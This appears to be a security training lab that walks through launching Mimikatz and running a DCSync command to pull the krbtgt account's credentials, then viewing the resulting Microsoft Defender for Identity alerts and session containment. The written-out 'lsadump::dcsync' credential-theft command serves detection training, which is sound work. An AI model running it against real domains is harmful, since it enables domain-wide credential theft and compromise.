

# Lab 15: Simulate and Detect Lateral Movement Attacks `(Read-Only)`

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task is **Read-only**—running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Because this lab uses a security-sensitive tool, Microsoft Defender will automatically flag the activity and terminate your session. You will not be able to log back into the VM after the attack simulation.

> **Note:** This exercise is **Read-only** because the tool used below is blocked by Microsoft Defender. If this software is used for any malicious activity, Microsoft Defender will flag the user as a threat, resulting in an automatic logout from the virtual machine. The user will not be able to log in again.

1. Open **PowerShell (Admin)** and navigate to the below mentioned directory.

      ```powershell
      cd C:\MimikatzLab\mimikatz-master\mimikatz-master\x64
      ```
1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:yourdomain.com /user:krbtgt
      ```

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you:
- Launched the Mimikatz tool from PowerShell (Admin) to simulate a DC Sync attack.
- Attempted to extract the credentials of the `krbtgt` account.
- Observed automatic containment measures initiated by Microsoft Defender for Identity.
- Verified alerts in the Microsoft Defender portal for blocked lateral movement attempts via remote logon and RDP.

## You have successfully completed the lab. Click on Next to Continue
